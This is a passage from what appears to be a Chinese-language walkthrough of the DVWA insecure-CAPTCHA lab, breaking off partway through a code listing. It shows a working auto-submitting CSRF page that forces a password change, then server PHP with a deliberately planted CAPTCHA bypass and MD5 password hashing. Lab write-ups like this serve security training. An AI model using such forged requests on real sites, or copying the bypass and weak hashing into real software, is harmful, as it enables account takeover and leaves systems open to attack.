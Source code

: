 **CSRF**

依然可以实施 CSRF 攻击,攻击页面代码如下.
```
<html>

<body onload="document.getElementById('transfer').submit()">

  <div>

    <form method="POST" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/captcha/">

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">

        <input type="hidden" name="passed_captcha" value="true">

		<input type="hidden" name="step" value="2"

		<input type="hidden" name="Change" value="Change">

	</form>

  </div>

</body>

</html>
```

### High

**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Change' ] ) ) {
	// Hide the CAPTCHA form
	$hide_form = true;

	// Get input
	$pass_new  = $_POST[ 'password_new' ];
	$pass_conf = $_POST[ 'password_conf' ];

	// Check CAPTCHA from 3rd party
	$resp = recaptcha_check_answer(
		$_DVWA[ 'recaptcha_private_key' ],
		$_POST['g-recaptcha-response']
	);

	if (
		$resp || 
		(
			$_POST[ 'g-recaptcha-response' ] == 'hidd3n_valu3'
			&& $_SERVER[ 'HTTP_USER_AGENT' ] == 'reCAPTCHA'
		)
	){
		// CAPTCHA was correct. Do both new passwords match?
		if ($pass_new == $pass_conf) {
			$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
			$pass_new = md5( $pass_new );
```